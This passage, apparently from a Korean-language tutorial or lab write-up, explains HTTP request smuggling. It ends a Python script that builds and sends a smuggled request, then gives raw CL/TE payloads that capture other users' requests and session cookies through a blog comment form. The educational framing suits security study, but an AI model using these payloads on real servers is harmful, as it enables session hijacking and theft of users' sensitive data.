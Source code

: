 ``` python
first_request += b'0\r\n\r\n'


smuggle_request = first_request + second_request

data = send_payload(smuggle_request)

print (f'{"[*] REQUEST":^10}')
print (smuggle_request.decode())
print ("{:^10}".format("[*] RESPONSE"))
print (data.decode())
```

`search` 파라미터의 값이 응답에 그대로 표시되기 때문에, `search` 로 Front-end가 추가한 헤더를 알아내고, 이 헤더의 값을 `127.0.0.1`로 바꾸면 됩니다.

### 😎 Capturing other users' requests

어플리케이션이 텍스트로 된 데이터를 저장하고 다운로드할 수 있는 기능을 지원하는 경우, **HTTP request smuggling** 공겨을 사용해서 다른 사용자들의 요청의 내용을 가져올 수 있습니다. session 토큰을 포함할 수도 있고, session 하이재킹 공격을 가능하게 할 수 있고, 또 다른 사용자로가 사용한 민감한 정보를 포함할 수도 있습니다. 댓글, 이메일, 프로필 설명 같은 기능들이 주로 이 공격을 수행하는데 자주 사용됩니다.

이 공격을 수행하려면 데이터 저장 기능에 보내는 요청을 smuggle 할 수 있어야 합니다. Back-end가 정상적으로 처리해야 하는 다음 요청이 smuggle된 요청 뒤에 붙어서, 다른 사용자의 요청 내용이 raw text로 저장됩니다.

블로그에 댓글을 다는 요청을 예로 들어 봅시다. 이 요청의 결과는 블로그에 나타납니다 :

``` http  
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

다음과 같은 요청을 보내서 **HTTP request smuggling** 공격을 수행할 수 있습니다 :

``` http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
